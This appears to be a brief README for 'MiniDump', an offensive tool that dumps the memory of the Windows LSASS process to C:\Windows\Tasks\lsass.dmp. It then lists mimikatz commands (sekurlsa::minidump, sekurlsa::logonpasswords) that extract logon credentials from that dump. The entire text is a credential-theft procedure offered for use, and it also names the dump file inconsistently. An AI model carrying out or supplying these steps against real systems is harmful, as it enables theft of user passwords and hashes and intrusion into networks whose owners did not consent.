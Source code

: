 # MiniDump
Usage:
```
MiniDump.exe
```
The lsass.lsa file will be saved to "C:\Windows\Tasks\lsass.dmp" and can be decrypted using:
```
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
